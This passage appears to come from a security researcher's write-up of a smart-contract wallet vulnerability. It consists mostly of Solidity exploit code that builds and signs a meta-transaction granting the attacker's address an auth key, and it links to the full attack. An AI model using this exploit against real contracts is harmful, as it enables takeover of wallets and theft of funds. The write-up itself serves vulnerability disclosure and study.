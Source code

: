 # Oops

Oops:

    
    
    bytes memory exploitTransaction = abi.encode(
    	wallet,
    	0,
    	uint(-1),
    	abi.encodeWithSignature(
    		"addAuthKey(address)",
    		0x32993258F4Bb0f00e3C25cF00a9b490BF86509D8 // the hacker's address
    	)
    );

Oops oops oops:

    
    
    bytes32 hash = keccak256(abi.encodePacked(
        "\x19Ethereum Signed Message:\n32",
        keccak256(abi.encode(
            address(wallet),
            wallet.executeMultipleAuthKeyMetaTransactions.selector,
            wallet.getChainId(),
            wallet.nonce(),
            [exploitTransaction],
            uint(0),
            uint(0),
            address(0),
            uint(0)
        ))
    ));

Oopsoopsoopsoopsoopsoopsoops:

    
    
    wallet.executeMultipleAuthKeyMetaTransactions(
    	[exploitTransaction],
    	0,
    	0,
    	address(0),
    	0,
    	// signed by the hacker
    	hex"274a0272b7dc3e465a7729bfc8b5e57bbf2e2e0a58e223680350564bbea20b7c7a3050f1ba533673dca92342f058ea178b7fecca02efa30a4b9ff082c7b086aa1c"
    );

The full attack is available in [this
Gist](https://gist.github.com/samczsun/bbb53e50900e53b659bb2fe16ce51a1e).

# Impact
